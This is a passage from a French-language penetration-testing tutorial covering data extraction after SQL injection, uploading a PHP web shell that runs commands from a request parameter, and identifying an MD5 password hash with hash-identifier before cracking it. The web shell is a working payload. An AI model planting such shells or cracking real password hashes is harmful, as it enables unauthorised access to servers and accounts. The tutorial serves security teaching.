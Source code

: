 Une fois les tables et colonnes identifiées. On peut récupérer des données comme vu précédement en insérant un `SELECT nom_de_colonne FROM table`.

\newpage

# Upload de fichier

Fichier shell.php: 

```php
<?php
    system($_REQUEST['cmd']);
?>
```

# Casser un mot de passe

Une fois que l'on a récupérer un hash de mot de passe, comme le mot de passe suivant `8efe310f9ab3efeae8d410a8e0166eb2`. On va tenter de le casser pour retrouver le clair.

## Identifier le hash

On peut utiliser un outil  tel que `hash-identifier` (installé sur kali par défaut) pour identifier le type du hash.

```bash
$ hash-identifier                                                                                      
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: 8efe310f9ab3efeae8d410a8e0166eb2

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))

```

Il s'agit donc probalement d'un hash md5.

## Casser le hash avec john the ripper
